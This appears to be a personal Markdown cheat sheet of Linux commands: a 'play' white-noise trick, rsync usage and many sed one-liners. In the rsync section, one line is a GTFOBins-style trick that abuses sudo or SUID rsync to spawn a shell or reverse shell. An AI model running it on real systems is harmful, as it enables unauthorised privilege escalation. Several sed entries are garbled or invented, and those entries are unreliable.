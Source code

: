 #### play
```bash 
# This feels like an easter egg
# Make it sound like your are on a spaceship
play -n -c1 synth whitenoise band -n 100 20 band -n 50 20 gain +30 fade h 1 86400 1
```

#### rsync
[Rsync - Jay LaCroix](https://www.youtube.com/watch?v=GqSxR93xK6E), [Rsync Man](https://linux.die.net/man/1/rsync)
```bash
df -h # Check the volumes
lost+found # directory for rsync 
# Check if it could send data with dry run
rsync --dry-run $flags $source $destination 
# -n same as --dry-run
# -a archive mode
# -v verbose
# -z compress
rsync -avz /source $user@$IP:/destination
# -4 -6 for prefer IPv4 or IPv6
# -u skipp newer file on destination!
# -r recurse into directories
# -d no recursive


# GTFObins - shell, suid and sudo :)
$sudo rsync -e sh -c "sh $revshell" # suid: "sh -p"
```
[gtfobins rsync](https://gtfobins.github.io/gtfobins/rsync/#shell)

#### sed
```bash
sed -n [operations] [file] > [file]
sed ....'1,100p'					# print matched lines
sed -e ... -e					# multiple section from a filestream 
sed 's/subthis/forthis/[]'			# 's = substitute /a/b/[ p = pattern, gp = global]
sed 's/\([^:]*\).*/\1/' /etc/passwd		for easy usernames
sed -f						specify file containing string pattern
sed -E						use extended regular expression
sed -n						suppress the automatic printing or pattern spacing
sed -s						substitute mode find and replace
sed -y						individual bytes in the string provide
/g						global
/i						case insensitive pattern
/d						delete the pattern found 
/p						prints the matching pattern
/1,/2,/3,/n					perform operation on an nth occurrence in a line
sed -e 'range mode/pattern/STRING/g' file.txt
sed commandline syntax:
'[condition(s)(format for declaring a list is follows:
            // List<datatype> <var noptional)] [command/mode(optional)]/[source/to-be-searched pattern(mandatory)]/[to-be-replaced pattern(depends on command/mode you use)]/[args/flags to operate on the pattern searched(optional)]'

sed -n -e '1,5' -e '10,15p' file.txt		# print lines 1to5, 10to15
sed "s/^/'/;s/$/'/" InputFile				# put single quotes around a stream
sed 's/^/"/;s/$/"/' InputFile				# put double quotes around a stream
sed -i '$ s/.$//' InputFile					# delete last character in file
sed -i -e 's/[ \t]*//' Input				# remove tabs from a file
sed -E 's/^([^,]*[,])//'					# remove after comma
sed -i 's/^\#.*$//g' $FILE && sed -i '/^$/d' $FILE	# remove comments
sed 's/\x27/\x22\g'	# replace all single x27 and double quotes x22 with hex escape characters 
sed -r '/^.{,5}$/d' # remove lines of 5 or less in length 
```